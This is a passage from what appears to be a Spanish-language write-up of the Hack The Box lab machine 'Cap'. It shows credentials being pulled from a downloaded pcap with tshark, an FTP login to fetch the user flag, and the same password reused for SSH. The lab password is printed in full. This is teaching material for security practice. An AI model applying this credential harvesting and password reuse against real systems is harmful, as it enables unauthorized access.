 ## Explotación


Y en `http://10.10.10.245/data/0`si que encuentro un pcap con información que me descargo inmediatamente.

Los archivos **pcap** son archivos de datos de paquetes de red, guardan capturas de esos paquetes. Es un archivo especial de The Wireshark.

Suelo abrirlos con thsark:
```
> tshark -r 0.pcap
``` 
Y esto es lo que encuentro:

![Cap]({{ 'assets/img/writeups/Cap/cap.png' | relative_url }}){: .center-image }

Encuentro unas credenciales de acceso al FTP:

User: nathan  
Password: Buck3tH4TF0RM3!

Entremos al servicio ftp, encontramos un user.txt y nos lo descargamos:
```
❯ ftp 10.10.10.245
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
Name (10.10.10.245:guise): nathan
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-r--------    1 1001     1001           33 Apr 09 13:33 user.txt
226 Directory send OK.
ftp> get user.txt
local: user.txt remote: user.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for user.txt (33 bytes).
226 Transfer complete.
33 bytes received in 0.00 secs (460.3795 kB/s)
```
Ya tenemos la primera flag:
```
> cat user.txt

147e63cd159c2e74bdbf*********
```
Tengo una contraseña del usuario nathan por ftp, ¿ y si es también la contraseña de acceso por ssh?. Esto hay que probarlo, es una práctica habitual reciclar contraseñas.
```
> ssh nathan@10.10.10.245
```
Metemos la contraseña que teníamos y estamos dentro:
